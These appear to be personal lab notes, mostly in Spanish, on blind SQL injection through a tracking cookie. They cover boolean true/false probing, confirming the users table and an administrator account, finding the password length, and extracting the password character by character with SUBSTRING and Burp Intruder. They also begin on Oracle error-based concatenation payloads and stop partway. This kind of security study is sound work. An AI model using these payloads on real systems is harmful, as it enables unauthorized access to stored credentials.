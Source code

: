 
# Blind SQL injection with conditional responses

Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the 
results of the relevant SQL query or the details of any database errors.
With blind SQL injection vulnerabilities, many techniques such as UNION attacks,
are not effective because they rely on being able to see the results of the injected query within the application's responses.
It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

## Paso 1

Identificar que en la cookie existe una inyeccion SQL.

En este ejemplo tenemos una cookie "TrackId" primero se prueba si es vulerable 

```
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=1--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
Cookie: TrackingId=HjnfhA06d5ESS3fR'and 1=2--; session=BTTP2qL1z1a4sJNyePUM0DOuWo4UsYyu
```

Si regresa el mensaje de "Welcome back" eso quiere decir que esta interpretanod nuestro codigo. Probar con 1=2 para que de false porque una se evelua con true
y la otra con false.

## Paso 2

(falta saber como se supo que tenidamos estas tablas y usuarios)

El siguiente paso es probar si la tabla users existe eso se hace con una consulta la cual pone una x(o cualquier caracter) 
en cada fila por cada registro que exista dentro de la base:

```
Cookie: TrackingId=UHO0YeDpDdzu3u9A' and (select 'x' from users limit 1)='x'-- // recuerda el ctrl + U

```

Si nos da el mensaje de "Welcome back" quiere decir que es true y que esta tabla users existe. 
***Select 'x'...*** es una sentencia que pone una x por cada fila que tenga la tabla en este caso se limita a 1
y como se iguala a x si exite seria x=x lo que regresa true 

## Paso 3 

Ir sacando datos evaluando con true or false


```
'and (select 'a' from users where username='administrator')='a'--

'and (select username from users where username='administrator')='administrator'--


```

Primero se checho si existe el usuario "administrator (que si existe porque devolvio true por tanto el mensaje de welcome bacK)
Se hizo con diferentes metodos todos probados y funcionaron por eso hay 2 sentencias de unos
a


## Paso 4

Sacar el password. Primero se saca el len del password para posteriormente irlo sacando
Se utilizo el ***Intruder*** dar clear y poner add en la payload poner snipper 
y revisar cuando las peticiones son diferentes.


```
'and (select username from users where username='administrator' and length(password)>19)='a'--

'and (select 'a' from users where username='administrator' and length(password)>19)='a'--

```

Dio 20 aunque la consulta de 

```

'and (select 'a' from users where username='administrator' and length(password)>20)='a'--
 
```


Para el segundo query caracter ya da false porque el numero es 20 no mayor a 20 


## Paso 5

***Substring sintaxis***

```
SUBSTRING(EXPRESION(COLUMNA),POSICION(EMPIEZA EN 1),LENGTH).

```

Se utiliza substring para sacar los datos las posiciones empienzan index 1.


```
'and (select substring(password,1,1) from users where username='administrator')='a'--
```

Se puede usar el ataque cluster Bomb pero solo en Burp Pro 
iteraria sobre los cambpos (select substring(password,*,1) y where username='administrator')='*'


```
'and (select substring(password,2,1) from users where username='administrator')='a'--

'and (select substring(password,2,1) from users where username='administrator')='$a$'--
```


Asi uno por uno iria iterando para sacar el password.

# Blind SQL injection with conditional errors

En este caso la base de datos no regresa el mensaje de welcome back de entrada la inyeccion sql se encuentra en la cookie osea que el camino mas facil es
abrir burp e ir inyectando desde ahi sentencias sql.


## Paso 1

Intentamos ver que error manda como ejecuta la consulta etc

```
TrackingId=ilj71quJBUaTO5Yi'
```

Vemos que ya da error entonces intentamos cerrar la y no nos da error lo que nos dice que esta interpretandola bien.

```
TrackingId=ilj71quJBUaTO5Yi''
```
Nos damos cuenta que para que sirva tenemos que cerrar esa consulta lo que nos lleva a un tema de concatenar datos

```
'||(select '') ||'
```
Esta es  una consulta totalmente valida pero nos devuelve error ¿Porque? Quiza nos enfrentamos a una base de datos
tipo Oracle que tienes que especificar de donde quieres sacar datos probamos...

```
'||(select '' from dual) ||'
' || (select '' from users where rownum=1' ||'
```
# ¿Que ES ROWNUM y ROW_NUMBER() vs ROWNUM

>https://tipsfororacle.blogspot.com/2016/09/difference-between-rownum-and-rownumber.html?m=1

## ROWNUM

Esta intruccion asigna un numero cuando se regresa el resultado en una consulta de 1 hasta n al resultado como un tipo ID pero no se muestra

## ROW_NUMBER()

Esta intruccion de igual manera pone un numero pero la diferencia es que pone un numero en base a un orden ejemplo si tenemos 10 personas 5 primeros hombres y 5 mujeres pondria del 1 al 5 en los hombres y del 1 al 5 en mujeres porque ordeno por genero.

***Por lo tanto***

ROWNUMBER permite regresar de una consulta solo un solo registro en este caso es importante porque al ser una concatencion ' str || (str2) || str3' no rompe 
la consulta.

# Logica

Nos regresa que todo esta bien lo renderiza si ponemos dual1 no lo haria daria ***error***
Entonces aqui tenemos un punto ***como aprovechar** Bueno si hacemos una consulta por ejemplo a la tabla users
deberia de renderizar todo pero como sacamos los datos¿?

Para sacar datos usamos el "CASE WHEN CONDICION1 THEN GENERAERROR ELSE TODOOK" 




